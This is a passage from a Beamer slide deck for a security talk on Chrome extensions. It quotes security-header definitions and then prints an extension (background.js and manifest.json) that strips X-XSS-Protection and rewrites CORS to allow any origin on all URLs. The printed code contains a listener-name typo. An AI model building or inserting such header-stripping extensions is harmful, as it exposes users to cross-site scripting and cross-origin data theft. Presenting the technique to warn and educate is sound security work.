\begin{frame}
  \frametitle{Chrome Extension Architecture}
  \begin{columns}
    \begin{column}{0.5\textwidth}
      
\includegraphics[scale=0.42]{extensionarch}
    \end{column}
    \begin{column}{0.5\textwidth}
      \begin{itemize}
      \item DOM Access
      \item Works with HTTP
      \item Works with HTTPS
      \item Can send out sensitive data
        \begin{itemize}
          \item Depending on Security Headers
        \end{itemize}
      \item Injection is the main feature of this architecture
        \item You should be concerned
      \end{itemize}
    \end{column}
  \end{columns}
\end{frame}

\begin{frame}
  \frametitle{That's great but it's...}
  \begin{columns}
    \begin{column}{0.5\textwidth}
      
\includegraphics[scale=0.5]{notgoodenough}
    \end{column}
    \begin{column}{0.5\textwidth}
      \begin{itemize}
      \item What about Security Headers
      \item Can only access what's in the browser
      \item Can't access their file system
      \item Not as fully featured as one would hope for
      \end{itemize}
    \end{column}
  \end{columns}
\end{frame}
\begin{frame}
  \frametitle{Security Headers}
  \framesubtitle{Content-Security-Policy (CSP)}
  "Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross Site Scripting (XSS) and data injection attacks. These attacks are used for everything from data theft to site defacement or distribution of malware." - MDN\\
  \bigskip
  \begin{tcolorbox}[title=Content-Security-Policy Header Example,colback=gray]
    Content-Security-Policy: default-src 'self'; img-src *; object-src media1.example.com media2.example.com *.cdn.example.com; script-src trustedscripts.example.com
  \end{tcolorbox}
\end{frame}
\begin{frame}
  \frametitle{Security Headers}
  \framesubtitle{Strict-Transport-Security (HSTS)}
  "The HTTP Strict-Transport-Security response header (often abbreviated as HSTS)  lets a web site tell browsers that it should only be accessed using HTTPS, instead of using HTTP." - MDN\\
  \bigskip
  \begin{tcolorbox}[title=Strict-Transport-Security Header Example,colback=gray]
    Strict-Transport-Security: max-age=31536000;
  \end{tcolorbox}
\end{frame}
\begin{frame}
  \frametitle{Security Headers}
  \framesubtitle{X-Frame-Options}
  "The X-Frame-Options HTTP response header can be used to indicate whether or not a browser should be allowed to render a page in a frame, iframe or object. Sites can use this to avoid clickjacking attacks, by ensuring that their content is not embedded into other sites." - MDN\\
  \bigskip
  \begin{tcolorbox}[title=X-Frame-Options Header Example,colback=gray]
    X-Frame-Options: SAMEORIGIN;
  \end{tcolorbox}
\end{frame}
\begin{frame}
  \frametitle{Security Headers}
  \framesubtitle{X-XSS-Protection}
  "The HTTP X-XSS-Protection response header is a feature of Internet Explorer, Chrome and Safari that stops pages from loading when they detect reflected cross-site scripting (XSS) attacks. Although these protections are largely unnecessary in modern browsers when sites implement a strong Content-Security-Policy that disables the use of inline JavaScript ('unsafe-inline'), they can still provide protections for users of older web browsers that don't yet support CSP." - MDN\\
  \bigskip
  \begin{tcolorbox}[title=X-XSS-Protection Header Example,colback=gray]
    X-XSS-Protection: 1; mode=block.
  \end{tcolorbox}
\end{frame}
\begin{frame}
  \frametitle{Security Headers}
  \framesubtitle{X-Content-Type-Options}
  "The X-Content-Type-Options response HTTP header is a marker used by the server to indicate that the MIME types advertised in the Content-Type headers should not be changed and be followed. This allows to opt-out of MIME type sniffing, or, in other words, it is a way to say that the webmasters knew what they were doing." - MDN\\
  \bigskip
  \begin{tcolorbox}[title=X-Content-Type-Options Header Example,colback=gray]
    X-Content-Type-Options: nosniff
  \end{tcolorbox}
\end{frame}
\begin{frame}
  \frametitle{Security Headers}
  \framesubtitle{Cross Origin Resource Sharing (CORS)}
  "Cross-Origin Resource Sharing (CORS) is a mechanism that uses additional HTTP headers to let a user agent gain permission to access selected resources from a server on a different origin (domain) than the site currently in use. A user agent makes a cross-origin HTTP request when it requests a resource from a different domain, protocol, or port than the one from which the current document originated." - MDN\\
  \bigskip
  \begin{tcolorbox}[title=Access-Control-Allow-Origin Header Example,colback=gray]
    Access-Control-Allow-Origin: https://www.example.com
  \end{tcolorbox}
\end{frame}

\begin{frame}
  \frametitle{More Reasons to be Concerned}
  \begin{center}
    \begin{tcolorbox}[title=Google Security Considerations Quote,colback=gray]
      When writing a content script, you should be aware of two security issues. First, be careful not to introduce security vulnerabilities into the web site your content script is injected into. For example, if your content script receives content from another web site (for example, by making an XMLHttpRequest), be careful to filter that content for cross-site scripting attacks before injecting the content into the current page. For example, prefer to inject content via innerText rather than innerHTML. Be especially careful when retrieving HTTP content on an HTTPS page because the HTTP content might have been corrupted by a network "man-in-the-middle" if the user is on a hostile network.\\
    \end{tcolorbox}
  \end{center}
\end{frame}
\begin{frame}
  \frametitle{Google}
  \framesubtitle{Keeping You Safe}
  \begin{center}
    
\includegraphics[scale=0.5]{cca}
  \end{center}
\end{frame}
\begin{frame}
  \frametitle{Security Headers?}
  \begin{center}
    
\includegraphics[scale=0.5]{insecurity}
  \end{center}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Insecurity Headers}
  \framesubtitle{Killing Security Headers}
  \begin{center}
    \begin{tcolorbox}[title=background.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{javascript}
        function removeMatchingHeaders(headers, regex, callback){
          for (let i = 0; i < headers.length; i++){
            if (headers[i].name.match(regex)){
              headers.splice(i, 1);
              callback(headers);
              return true;
            }
          }
          return false;
        }
        function remove_security_headers(details){
          removeMatchingHeaders(
            details.responseHeaders,
            /x-xss-protection/i,
            function(headers){
              return true;
            }
          );
        }
        chrome.webRequest.onHeadersReceived.addListenter(
          remove_security_headers,
          {urls: ['*://*/*']},
          ['blocking', 'responseHeaders']
        );
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Insecurity Headers}
  \framesubtitle{Killing Security Headers}
  \begin{center}
    \begin{tcolorbox}[title=background.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{javascript}
        //Replace Access-Control-Allow-Origin
        removeMatchingHeaders(
          details.responseHeaders,
          /access-control-allow-origin/i,
          function(headers){
            let header = {
              name: 'Access-Control-Allow-Origin',
              value: '*'
            };
            console.log('Replaced Header: ' + '{' + header.name + ':' + header.value + '}');
            headers.push(header);
            return true;
          }
        );
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Insecurity Headers}
  \framesubtitle{The Manifesto}
  \begin{center}
    \begin{minipage}{0.5\textwidth}
      \begin{tcolorbox}[title=manifest.json,colback=black]
        \begin{minted}[fontsize=\tiny]{json}
          {
            "background": {
              "scripts": [
              "background.js"
              ]
            },
            "permissions": [
              "background",
              "tabs",
              "webRequest",
              "webRequestBlocking",
              "<all_urls>"
            ]
          }
        \end{minted}
      \end{tcolorbox}
    \end{minipage}
  \end{center}
\end{frame}
\begin{frame}
  \frametitle{Google Board Meeting}
  \begin{center}
    
\includegraphics[scale=0.32]{out_the_window}
  \end{center}
\end{frame}
\begin{frame}
  \frametitle{Google Chrome Site Isolation}
  \framesubtitle{As of 2018/04/19}
  \begin{center}
    \begin{tcolorbox}[title=\href{https://www.bleepingcomputer.com/news/google/google-chrome-66-released-today-focuses-on-security/}{Bleeping Computer},colback=gray]
      A second security-focused feature that will go live with Chrome 66 is something called "Strict Site Isolation." \\
      \newline
      The feature has been available in Chrome since version 63, but it was turned off by default and was hidden behind a Chrome flag. Now, Google says it will turn on this security feature for a small percentage of users to prepare for a broader upcoming launch.\\
    \end{tcolorbox}
  \end{center}
\end{frame}
\begin{frame}
  \frametitle{Google Chrome Site Isolation}
  \framesubtitle{What does it do?}
  \begin{center}
      
    \begin{tcolorbox}[title=\href{http://www.chromium.org/Home/chromium-security/site-isolation}{Google Chrome Site Security Isolation},colback=gray]
      Websites typically cannot access each other's data inside the browser, thanks to code that enforces the Same Origin Policy.  Occasionally, security bugs are found in this code and malicious websites may try to bypass these rules to attack other websites.  The Chrome team aims to fix such bugs as quickly as possible.
    \end{tcolorbox}
  \end{center}
\end{frame}
\begin{frame}
  \frametitle{Google Chrome Site Isolation}
  \framesubtitle{Did they see my talk coming up?}
  \begin{center}
    \animategraphics[loop,controls,scale=0.45]{10}{img/trollface/trollface-}{0}{4}
  \end{center}
\end{frame}
\begin{frame}
  \frametitle{POC / Demo}
  \framesubtitle{Pray to the demo gods}
  \begin{center}
    
\includegraphics[scale=0.4]{demogods}
  \end{center}
\end{frame}
\begin{frame}
  \frametitle{Questions}
  \begin{center}
    
\includegraphics[scale=0.3]{questions}
  \end{center}
\end{frame}
\end{document}
